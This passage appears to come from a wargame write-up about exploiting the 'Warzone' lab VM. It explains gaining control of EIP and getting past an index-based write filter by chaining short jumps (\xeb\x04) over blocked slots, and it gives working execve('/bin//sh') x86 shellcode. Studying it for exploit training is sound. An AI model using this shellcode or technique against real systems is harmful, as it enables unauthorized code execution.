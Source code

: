 This is awesome! We have the control over EIP :) But that's only the first problem. Now, we need to write a shellcode to return to **but** we **cannot** write at certain *index* (do you remember this check `if(index % 3 == 0 || (input >> 24) == 0xb7)`). How can we do that? Let's think about it.

## Shellcoding

Ok, we got control over the return address so, we could use this to return to the **data** array. But we can't write a "continuous" shellcode as we have to respect the following condition : `if(index % 3 == 0 || (input >> 24) == 0xb7)`. That means if I try to write a "fake" shellcode in memory, it'll look like that :

```nasm
0xbffff548: 0x00000000  0x41414141  0x41414141  0x00000000
0xbffff558: 0x41414141  0x41414141  0x00000000  0x41414141
0xbffff568: 0x41414141  0x00000000  0x41414141  0x41414141
```

Yep, we cannot write at certain *index*... But what if we could jump over those NULL bytes? I won't go too deep into the details, but you can check this technique [here](http://thestarman.narod.ru/asm/2bytejumps.htm).

As you can see, we can write 2 bytes of data before hitting a reserved address space. But we could use what we call **short jump** or **forward short jumps**. **Forward Jumps** use relative offset values from 00h to 7Fh which enable program execution to jump to another instruction with a maximum of 127 bytes between them.

So, we could write a small part of a shellcode then jump over the NULL bytes, execute another part, then jump over the NULL bytes, etc. Here we have to jump over 4 bytes. In assembler it means : `\xeb\x04` (check [here](http://ref.x86asm.net/coder32.html#xEB)).

Okay, we are almost there! As it's kind of annoying to write a long shellcode with this method, we'll stick to something short.

```nasm
global _start
_start:

xor    eax, eax ; EAX = 0
push   eax ; push our null byte on the stack to end the string
; push "/bin//sh" in reverse order
push   0x68732f2f ; "hs//"
push   0x6e69622f ; "nib/"

; execve("/bin//sh/", 0, 0);
mov    ebx, esp ; EBX = ptr to "/bin//sh"
mov    ecx, eax ; ECX = 0
mov    edx, eax ; EDX = 0
mov    al, 0xb ; sys_execve()
int    0x80
```

**Note** The *Warzone* VM doesn't have **NASM** installed, so I did the development on another Linux VM.
{: .notice--info}
